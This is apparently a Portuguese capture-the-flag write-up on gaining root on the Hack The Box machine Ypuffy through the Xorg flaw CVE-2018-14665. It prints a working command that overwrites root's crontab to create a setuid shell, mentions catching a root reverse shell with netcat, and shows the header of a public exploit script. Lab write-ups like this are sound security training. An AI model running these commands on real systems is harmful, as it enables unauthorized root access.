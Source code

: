 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin21.png)

Você verá que é preciso matar ela (Control+C), mas foi escrito no crontab do root, agora é esperar na Kali com o nc aberto na porta 443 que irá vir a conexão de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin22.png)

Outro modo é fazer um arquivo com setuid shell, no caso eu copiei o sh para roota e setei setuid nele com `chmod 4777`

`Xorg -fp "* * * * * root cp /bin/sh /usr/local/bin/roota; chmod 4777 /usr/local/bin/roota" -logfile crontab :1 &`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin23.png)

Depois de um minuto, só executar o `/usr/local/bin/roota` e viramos root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin24.png)

## Automático

Agora vamos fazer do modo automático, uma vez que você já entendeu a vulnerabilidade, pesquisamos pela versão do Kernel na internet pro modos de escalação de privilégio

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin25.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin26.png)

Encontramos esse

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin27.png)

Copiamos ele para a máquina, e executamos

exploit.sh
```
# Exploit Title: xorg-x11-server 1.20.3 - Privilege Escalation
# Date: 2018-10-27
# Exploit Author: Marco Ivaldi
# Vendor Homepage: https://www.x.org/
# Version: xorg-x11-server 1.19.0 - 1.20.2
# Tested on: OpenBSD 6.3 and 6.4
# CVE : CVE-2018-14665

# raptor_xorgasm

#!/bin/sh

#
# raptor_xorgasm - xorg-x11-server LPE via OpenBSD's cron
# Copyright (c) 2018 Marco Ivaldi <raptor@0xdeadbeef.info>
#
# A flaw was found in xorg-x11-server before 1.20.3. An incorrect permission 
# check for -modulepath and -logfile options when starting Xorg. X server 
# allows unprivileged users with the ability to log in to the system via 
# physical console to escalate their privileges and run arbitrary code under 
# root privileges (CVE-2018-14665).
#
# This exploit targets OpenBSD's cron in order to escalate privileges to
# root on OpenBSD 6.3 and 6.4. You don't need to be connected to a physical
# console, it works perfectly on pseudo-terminals connected via SSH as well.
#
# See also:
# https://lists.x.org/archives/xorg-announce/2018-October/002927.html
# https://www.exploit-db.com/exploits/45697/
```